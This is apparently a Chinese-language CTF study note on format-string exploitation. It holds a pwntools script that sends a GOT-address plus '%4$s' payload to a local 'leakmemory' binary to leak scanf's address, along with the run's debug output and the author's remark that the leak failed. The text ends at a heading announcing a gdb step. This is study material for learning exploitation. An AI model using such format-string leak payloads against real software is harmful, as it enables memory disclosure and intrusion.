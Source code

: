 

- 输出 scanf 地址的脚本，疑似由于某些额外的保护措施/gcc的影响，导致无法输出scanf的地址

```python
from pwn import *   # 分析 leakmemory.c 的脚本 可以输出 scanf 的地址 # 有效性存疑
context.log_level = "DEBUG"
sh = process('./leakmemory')
leakmemory = ELF('./leakmemory')
__isoc99_scanf_got = leakmemory.got['__isoc99_scanf']  # __isoc99_scanf 的got表项地址
print("__isoc99_scanf_got: ", hex(__isoc99_scanf_got))  # __isoc99_scanf_got:  0x804c014
payload = p32(__isoc99_scanf_got) + b'%4$s' # scanf 的got表地址 + %4$s
print("payload:", payload) # payload: b'\x14\xc0\x04\x08%4$s'
# gdb.attach(sh) # [+] Waiting for debugger: Done
sh.sendline(payload) # Sent 0x9 bytes: 14 c0 04 08  25 34 24 73  0a  │····│%4$s│·│
sh.recvuntil(b'%4$s\n')
temp = sh.recv() # 按照原本脚本的意思 这里应该收到8 bytes 前4byte为__isoc99_scanf_got，后 4byte 为__isoc99_scanf_got上存储的内容
print("sh.recv(): ", temp, type(temp), len(temp)) # sh.recv():  b'\x14\xc0\x04\x08' <class 'bytes'> 4
print("hex(u32(temp)): ", hex(u32(temp))) # hex(u32(temp)):  0x804c014
temp = sh.recv()
# print(hex(u32(sh.recv()[4:8])))  # remove the first bytes of __isoc99_scanf@got
sh.interactive()
```

- 运行上面的脚本时的输出

```python
$ python leakmemory.py
[+] Starting local process './leakmemory' argv=[b'./leakmemory'] : pid 36823
[DEBUG] PLT 0x8049030 printf
[DEBUG] PLT 0x8049040 __libc_start_main
[DEBUG] PLT 0x8049050 __isoc99_scanf
[*] '/home/kali/CTF/pwn/leakmemory'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
__isoc99_scanf_got:  0x804c014
payload: b'\x14\xc0\x04\x08%4$s'
[*] running in new terminal: /usr/bin/gdb -q  "./leakmemory" 36823
[DEBUG] Launching a new terminal: ['/usr/bin/x-terminal-emulator', '-e', '/usr/bin/gdb -q  "./leakmemory" 36823']
[+] Waiting for debugger: Done
[DEBUG] Sent 0x9 bytes:
    00000000  14 c0 04 08  25 34 24 73  0a                        │····│%4$s│·│
    00000009
[DEBUG] Received 0x24 bytes:
    00000000  30 30 30 30  30 30 30 31  2e 32 32 32  32 32 32 32  │0000│0001│.222│2222│
    00000010  32 2e 66 66  66 66 66 66  66 66 2e 14  c0 04 08 25  │2.ff│ffff│ff.·│···%│
    00000020  34 24 73 0a                                         │4$s·│
    00000024
[DEBUG] Received 0x4 bytes:
    00000000  14 c0 04 08                                         │····│
    00000004
sh.recv():  b'\x14\xc0\x04\x08' <class 'bytes'> 4
hex(u32(temp)):  0x804c014
[*] Switching to interactive mode
[*] Process './leakmemory' stopped with exit code 0 (pid 36823)
[*] Got EOF while reading in interactive
```
- 上述脚本运行时，会启动gdb，在gdb中下断点，continue，查看栈的变化：
